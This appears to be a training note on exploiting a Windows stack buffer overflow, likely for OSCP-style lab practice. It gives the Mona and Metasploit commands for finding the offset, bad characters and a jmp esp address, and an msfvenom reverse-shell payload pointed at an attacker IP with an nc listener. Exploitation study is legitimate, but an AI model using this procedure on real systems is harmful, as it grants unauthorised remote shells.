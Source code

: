 #### Pre-Configuration

1. Configure the working space inside Immunity Debugger for the Mona plugin:

```
!mona config -set workingfolder c:\mona\%p
```

2. Open the target binary in Immunity Debugger and run it.

---

#### 1. Find Crashing Point

Run [[fuzzer.py]], take a note of the largest number of bytes that were sent (`CRASHBYTES`).

---

#### 2. Create Cyclic Pattern

With a `SIZE` of `CRASHBYTES` + 400 :

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [SIZE]
```

1. Paste the generated payload into [[exploit.py]] .
2. Restart the binary in Immunity Debugger, run `exploit.py` and calculate the offset using Mona:

```
!mona findmsp -distance [SIZE]
```

5. Set offset in `exploit.py` and `retn` to `BBBB`.

---

#### 3. Detect Bad Chars

1. Restart Immunity Debugger and generate a bytearray using Mona exluding the nullbyte:

```
!mona bytearray -b "\x00"
```

2. Generate an identical string of bad chars using the python script [[badchars.py]] excluding the nullbyte.
3. Update the [[exploit.py]] payload with the generated badchars.
4. Reload the binary in Immunity Debugger and run the modified [[exploit.py]], copy the `ESP` register address (`ESPADDR`) and perform a comparsion between the pre-generated bytearray and the injected payload: 

```
!mona compare -f C:\mona\oscp\bytearray.bin -a [ESPADDR]
```

5. Remember the newly detected `badchars` and generate a new bytearray using Mona. Update the `bytearray.py` and generate a new payload. Repeat the process above until all badchars are detected.

**Notice!*** Byte-chains can be eliminated: 

```
\x00\x01\x02\x03\x04\x23\x24\x3c\x3d\x83\x84\xba\xbb => \x00\x23\x3c\x83\xba
```

![[mona_badchars_detection.png]]
The image from Mona displays that at the bytes `\x07`, `\x2e` and `\xa0` are discrepancies with the bevore generated bytearray in the chache.

---
#### 3.5 Find jump point

1. Search with mona for possible return addresses for the exploit

```
!mona jmp -r esp -cpb "[BADCHARS]"
!mona jmp -r esp -cbp "\x00\x07\x2e\xa0" # taken from the example above
```

2. choose one pointer from the list of pointers (does not necesserily have to be `jmp esp`)

```
0x625011AF : jmp esp | ...
0x625011BB : jmp esp | ...
...
```

3. add this address as `retn` value in `exploit.py` in `little-endian` format.

```python
retn = "\xBB\x11\x50\x62"
```

---
#### 4. Generate Payload

1. Using `msfvenom` :

```
msfvenom -p windows/shell_reverse_tcp LHOST=[ATTACKER IP] LPORT=4444 EXITFUNC=thread -b "[BADCHARS]" -f c # badchars like "\x00\x07"
```

2. Copy the shellcode into [[exploit.py]] using the following notation:

```python
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

---

#### 5. Prepend NOPs

Set the padding inside `exploit.py` to a bunch of `NOP` :

```
padding = "\x90" * 16
```

---

#### 6. Exploit

Start a listener on the attacker machine: `nc -lvp 4444` and execute [[exploit.py]] .